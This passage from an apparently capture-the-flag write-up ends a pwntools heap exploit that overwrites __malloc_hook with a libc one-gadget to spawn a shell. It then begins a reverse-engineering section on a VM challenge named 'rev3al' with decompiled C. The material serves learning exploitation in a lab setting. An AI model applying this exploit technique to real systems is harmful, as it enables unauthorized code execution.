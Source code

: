```python  

for i in xrange(4):  
	create("getshell" + str(i))

set_data("getshell0", p64(libc_addr + e.symbols["__malloc_hook"] - 0x23),
0x60)  
set_data("getshell1", 'a', 0x60)  
set_data("getshell2", 'b', 0x60)  
set_data("getshell3".ljust(0x100, '\x00'), '\x00' * 0x13 + p64(libc_addr +
ONE_GADGET_OFF), 0x60)

sh.sendline("1")  
sh.recvuntil("topic: ")  
sh.sendline("123")

sh.interactive()  
```

## rev3al

### Initialization of VM

This is a VM reverse challenge, which is a bit complicated but not very hard;
it is solvable if enough time was spent.

```c  
text = (unsigned int *)mmap(0LL, 0xA00uLL, 3, 34, 0, 0LL);  
if ( text != (unsigned int *)-1LL )  
{  
 mem = (unsigned __int8 *)mmap(0LL, 0x100uLL, 3, 34, 0, 0LL);  
 if ( mem != (unsigned __int8 *)-1LL )  
 {  
   jmp_tab = (unsigned int *)mmap(0LL, 0x100uLL, 3, 34, 0, 0LL);  
   if ( text != (unsigned int *)-1LL )  
   {  
//...  
```

Initially, 3 pages are allocated by `mmap`.

Then input is obtained by `cin`

```c  
input.ptr = input.data;  
input.size = 0LL;  
input.data[0] = 0;  
std::operator<<<std::char_traits<char>>(&std::cout, "Go for it:\n");  
std::operator>><char,std::char_traits<char>,std::allocator<char>>(&std::cin,
&input);  
if ( input.size - 1 > 0xD )             // <= 0xe == 14  
 exit(1);  
```
